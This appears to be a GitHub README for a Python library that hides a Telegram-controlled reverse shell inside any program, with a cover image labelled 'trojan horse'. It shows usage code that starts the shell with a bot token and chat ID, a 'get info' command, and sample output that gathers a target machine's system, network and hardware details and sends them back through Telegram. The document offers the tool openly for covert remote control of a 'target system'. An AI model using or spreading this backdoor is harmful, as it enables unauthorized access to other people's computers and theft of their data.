  <p align="center">
<img src='./cover.png' style="border: white;border-radius: 2pc;" alt='trojan horse'/>
</p>

## py_tel_reverse_shell 
### the reverse shell in your telgram!

# What is this?
This program is a Python library that you can use to put an inverted shell connected to Telegram in any program. And control the target system from within the telegram.

# How does it work?
Currently, this **Python library** cannot be installed using pip, but it can be used this way anyway.

```python 
# sample program
from py_tel_reverse_shell import tel_shell



## get token from @BotFather in telegram
my_token = "2018473XXXXXXXXXXXXXXXXXXXXX-3M"
## get your number id from @userinfobot in telegram
my_chat_id = "19XXXXX25"


tel_shell.start_shell(bot_token=my_token,chat_id=my_chat_id)
```
and over. You can easily put an inverted shell connected to Telegram in your program.


# options
*You can send these words to the robot to get the answer.*
```bash
get info #get full info from target
```
sample output:
```text
-------- Boot Time -----------
 Boot Time: 2021/9/20 13:56:22
 -------- system info -----------
 platform: Linux
 platform-release: 5.13.16-200.fc34.x86_64
 platform-version: 1 SMP Mon Sep 13 12:39:36 UTC 2021
 architecture: x86_64
 hostname: optimus
 ip-address: 192.168.1.36
 public IP address: 31.xxx.xxx.32
 -------- CPU info -----------
 processor: x86_64
 Physical cores: 2
 Total cores: 2
 Max Frequency: 3200.00Mhz
 Min Frequency: 800.00Mhz
 Current Frequency: 895.82Mhz
 Total CPU Usage: 23.4%
 -------- Memory info -----------
 Total: 7.66GB
 Available: 4.81GB
 Used: 2.09GB
 Percentage: 37.2%
 -------- SWAP info -----------
 Total: 14.66GB
 Free: 14.40GBUsed: 266.50MBPercentage: 1.8%
 -------- Network info -----------
=== Interface: lo ===
 IP Address: 127.0.0.1
 Netmask: 255.0.0.0
 Broadcast IP: None
=== Interface: lo ===
 MAC Address: 00:00:00:00:00:00
 Netmask: None
 Broadcast MAC: None
=== Interface: enp2s0 ===
 IP Address: 192.168.1.36
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.1.255
=== Interface: enp2s0 ===
 MAC Address: 1c:xx:xx:xx:a2:c8
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
=== Interface: virbr0 ===
 IP Address: 192.168.122.1
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.122.255
=== Interface: virbr0 ===
 MAC Address: 52:xx:xx:xx:6c:93
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
 Total Bytes Sent: 83.69MBTotal Bytes Received: 175.42MB
```